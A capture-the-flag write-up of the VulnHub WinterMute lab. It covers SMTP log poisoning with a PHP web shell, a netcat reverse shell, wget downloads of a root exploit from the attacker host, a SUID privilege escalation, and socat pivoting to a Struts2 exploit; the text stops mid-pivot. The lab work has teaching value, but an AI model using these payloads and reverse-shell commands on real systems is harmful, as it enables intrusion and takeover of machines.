<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/wintermute-1,239/">WinterMute</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/_creosote"> Melvin</a></h4>

***

This is going to be a very cool machine because it's two VMs named `strayligth` and `neuromancer` and we need to pwn `straylight` which is basically a `user` machine and then from there we have to pivot to the another `neuromancer`.

***

```
wget http://192.168.56.1:8000/libhax.so; wget http://192.168.56.1:8000/rootshell
```

## Nmap



We can see the smtp server running. The interesting one is port `3000` which is running `hadoop-datanode` , a service I've seen for the first time on any VM.

Let's start with HTTP and see what we can find.

***

## HTTP


This is what we get when we visit the website and after sometime this changes and we are shown our so called `contract` with the AI named `WinterMute`.



If we go through source of that(`xwx.html`) page we'll find the `js` file which basically prints the contract.

I ran gobuster on that to see if I could find anything



The `/manual` would lead us to `Apache manual` so I decided to look into the `/freeside`


But I found nothing over there, nothing in source, nothing with gobuster. So I moved on to port `3000`

#### Port 3000

When we visit `http://192.168.56.102:3000` we are redirected to `http://192.168.56.102:3000/lua/login.lua?referer=/` and we get a login page.



We can see the `Hint` saying the credentials are `admin: admin`. After login we can see `ntop` dashboard.



In `flows` section we can see the traffic flow.


Another thing we notice here is directory listing in the `info` tab. We've already visited `/freeside` and has found nothing. Let's try `/turing-bolo` on port `80`.



If we submit the query for case we can see other files listed there..



So this could mean that there might be directory traversal. So I tried `../` or `../` but none of them worked. After lot of trial and error I realized that in nmap scan we saw a `smtp` service running but there wasn't any pop3 or imap this could mean that `smtp` is there just to send something out and if that is happening then there has to be log on the system.

I found the `logs for mail` in `/var/mail/log/`.



Since we have access to log we can exploit this to get an RCE using smtp server. We can send the `PHP` code in the email and then try to access the log(`log poising`)

Using telnet connect to the port 25 and run the following one by one:

```
MAIL FROM:<mzfr@vulnhub.com>
RCPT TO:<?php echo system($_POST['cmd']); ?>
```



To test if our poisioning worked or not run the following command:

```bash
➜  curl -X POST http://192.168.56.102/turing-bolo/bolo.php\?bolo\=/var/log/mail --data "cmd=ls"
```



We can see the directory listing and since we got RCE we can get a reverse shell from this.

Run: `➜  curl -X POST http://192.168.56.102/turing-bolo/bolo.php\?bolo\=/var/log/mail --data "cmd=nc -e /bin/sh 192.168.56.1 4444"`



Since we have the reverse shell we can start enumerating for privilege escalation.

***

## Privilege escalation

I ran my enumerations scirpt and found few other user and a SUID





Since we have an SUID I decided to search for exploit and actually found one for privilege escalation.



I knew this exploit because same privilege escalation method was use in DC5 VM, so I did what I did in DC5 machine(read it [here](https://mzfr.github.io/DC5) it's toward the end).

After running the exploit I got the root shell.





***
***

## Neuromancer

Okay so we've got the root flag for straylight now it's time to get root on neuromancer.

I read the note in `/root`



It gives us a URL `/struts2_2.3.15.1-showcase` but this will not work on the IP we already have. Since the server is running via tomcat we'll have to find out a way to do port scan without nmap(nmap is not installed on the server).

Also before that we need to find the IP on which `neuromancer` is running. To do that we use simple bash commands:

```bash
for ip in $(seq 1 254); do ping -c 1 192.168.56.$ip; done
```

__This might take some time__



The only packet that wasn't lost was to the IP `192.168.56.107`. So this mean neuromancer is running on that IP. Now let's port scan(without nmap).

```bash
for i in $(seq 1 65535); do nc -nvz -w 1 192.168.56.107 $i 2>&1; done | grep -v "Connection refused"
```



Okay so there are three open port `8009`, `8080` and `34483` but the problem is we won't be able to see anything if we try to visit the IP and the ports. To be able to acces them we'll have to do port forwarding. For portforwarding we can use `socat` like `socat TCP-LISTEN:5000,fork,reuseaddr tcp:127.0.0.1:8080`, this means that the website on 8080 should be visible at port 5000 from outside. But since we need to do with three ports we'll have to put `&` in the end of each command.

The `&` in nix tells the system to execute a command and put it in background.
In short we'll be executing the following commands.

* `socat TCP-LISTEN:8009,fork,reuseaddr tcp:192.168.56.107:8009 &`
* `socat TCP-LISTEN:8000,fork,reuseaddr tcp:192.168.56.107:8080 &`
* `socat TCP-LISTEN:34483,fork,reuseaddr tcp:192.168.56.107:34483 &`



Now before opening them in browser let's run nmap on them to see what services are running.



***

## HTTP - Port 8080



But this is not we want. In the note it said to visit `/struts2_2.3.15.1-showcase`.

On visiting that page we can see `Struts2 Showcase` welcome page.


I first looked around to see if I could find anything in there but I didn't. So I searched for the exploit related to `Struts2` and found an RCE.


In the end of the exploit we'll find 2 comments:

```
# $ ncat -v -l -p 4444 &

# $ python exploit_S2-048.py http://127.0.0.1:8080/2.3.15.1-showcase/integration/saveGangster.action "ncat -e /bin/bash 127.0.0.1 4444"
```

1st line is for setting up the listener and 2nd shows how to run exploit. But in our case we'll need something more, we need another socat port forwarding.

__WHY?__

Because we need reverse shell from `neuromancer` to `our machine` but `starylight` is the middle man. So we'll need to forward everything to us.

To do this run the following command on `straylight`

```bash
socat TCP-LISTEN:1337,fork,reuseaddr TCP:192.168.56.1:1337 &
```

This is for our reverse shell.

